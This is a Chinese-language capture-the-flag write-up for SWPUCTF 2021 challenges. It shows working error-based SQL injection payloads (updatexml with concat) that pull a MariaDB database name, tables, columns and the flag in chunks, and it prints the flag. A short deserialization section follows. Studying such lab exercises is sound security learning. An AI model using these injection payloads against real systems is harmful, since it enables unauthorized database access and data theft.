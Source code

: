 ## [SWPUCTF 2021 新生赛]error

### 报错注入

输个引号, 爆出错误, 是 MariaDB:

![6-1.png](6-1.png)

```sql
-- 爆出库名: XPATH syntax error: '~test_db~'
1' AND updatexml(1 ,concat(0x7e,(SELECT database()),0x7e),1) --; 
```

```sql
-- 爆出表名: XPATH syntax error: '~test_tb,users~'
1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='test_db'),0x7e),1) --  
```

```sql
--爆出列名: XPATH syntax error: '~id,flag~'
1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='test_tb'),0x7e),1) --  
```

```sql
-- 爆出 flag: 
-- XPATH syntax error: '~NSSCTF{73feb461-21b7-4017-8c10-'
1' AND updatexml(1 ,concat(0x7e,(SELECT (flag) FROM test_tb LIMIT 0,1),0x7e),1) --  
```

说明被截断了:

```sql
-- 分批次爆出 flag: 修改 SUBSTRING 的起点即可
-- XPATH syntax error: '~NSSCTF{73feb461-21b7-401~'
-- XPATH syntax error: '~7-4017-8c10-c258c2eb1026~'
-- XPATH syntax error: '~1026}~'
1' AND updatexml(1,concat(0x7e,SUBSTRING((SELECT flag FROM test_tb LIMIT 0,1),1,24),0x7e),1) --
```

拼起来: `NSSCTF{73feb461-21b7-4017-8c10-c258c2eb1026}`

## [SWPUCTF 2021 新生赛]pop

### 代码审计

显然是一个反序列化的漏洞。不过这个漏洞要利用不能一步到位, 要后往前推构造一条利用链。
